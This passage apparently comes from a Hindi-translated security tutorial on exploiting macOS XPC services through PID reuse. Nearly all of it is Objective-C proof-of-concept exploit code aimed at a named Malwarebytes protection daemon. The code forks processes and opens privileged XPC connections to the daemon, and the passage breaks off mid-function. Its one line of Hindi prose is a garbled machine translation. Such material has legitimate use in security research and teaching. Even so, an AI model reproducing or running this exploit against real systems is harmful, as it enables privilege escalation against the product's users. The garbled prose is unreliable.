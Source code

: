 ```objectivec
asm(".section __DATA,__objc_fork_ok\n"
"empty:\n"
".no_dead_strip empty\n");
```
{% endhint %}

पहला विकल्प **`NSTasks`** का उपयोग करके और तर्क का उपयोग करके बच्चों को उत्पीड़ित करने के लिए लॉन्च करें

```objectivec
// Code from https://wojciechregula.blog/post/learn-xpc-exploitation-part-2-say-no-to-the-pid/
// gcc -framework Foundation expl.m -o expl

#import <Foundation/Foundation.h>
#include <spawn.h>
#include <sys/stat.h>

#define RACE_COUNT 32
#define MACH_SERVICE @"com.malwarebytes.mbam.rtprotection.daemon"
#define BINARY "/Library/Application Support/Malwarebytes/MBAM/Engine.bundle/Contents/PlugIns/RTProtectionDaemon.app/Contents/MacOS/RTProtectionDaemon"

// allow fork() between exec()
asm(".section __DATA,__objc_fork_ok\n"
"empty:\n"
".no_dead_strip empty\n");

extern char **environ;

// defining necessary protocols
@protocol ProtectionService
- (void)startDatabaseUpdate;
- (void)restoreApplicationLauncherWithCompletion:(void (^)(BOOL))arg1;
- (void)uninstallProduct;
- (void)installProductUpdate;
- (void)startProductUpdateWith:(NSUUID *)arg1 forceInstall:(BOOL)arg2;
- (void)buildPurchaseSiteURLWithCompletion:(void (^)(long long, NSString *))arg1;
- (void)triggerLicenseRelatedChecks;
- (void)buildRenewalLinkWith:(NSUUID *)arg1 completion:(void (^)(long long, NSString *))arg2;
- (void)cancelTrialWith:(NSUUID *)arg1 completion:(void (^)(long long))arg2;
- (void)startTrialWith:(NSUUID *)arg1 completion:(void (^)(long long))arg2;
- (void)unredeemLicenseKeyWith:(NSUUID *)arg1 completion:(void (^)(long long))arg2;
- (void)applyLicenseWith:(NSUUID *)arg1 key:(NSString *)arg2 completion:(void (^)(long long))arg3;
- (void)controlProtectionWithRawFeatures:(long long)arg1 rawOperation:(long long)arg2;
- (void)restartOS;
- (void)resumeScanJob;
- (void)pauseScanJob;
- (void)stopScanJob;
- (void)startScanJob;
- (void)disposeOperationBy:(NSUUID *)arg1;
- (void)subscribeTo:(long long)arg1;
- (void)pingWithTag:(NSUUID *)arg1 completion:(void (^)(NSUUID *, long long))arg2;
@end

void child() {

// send the XPC messages
NSXPCInterface *remoteInterface = [NSXPCInterface interfaceWithProtocol:@protocol(ProtectionService)];
NSXPCConnection *xpcConnection = [[NSXPCConnection alloc] initWithMachServiceName:MACH_SERVICE options:NSXPCConnectionPrivileged];
xpcConnection.remoteObjectInterface = remoteInterface;

[xpcConnection resume];
```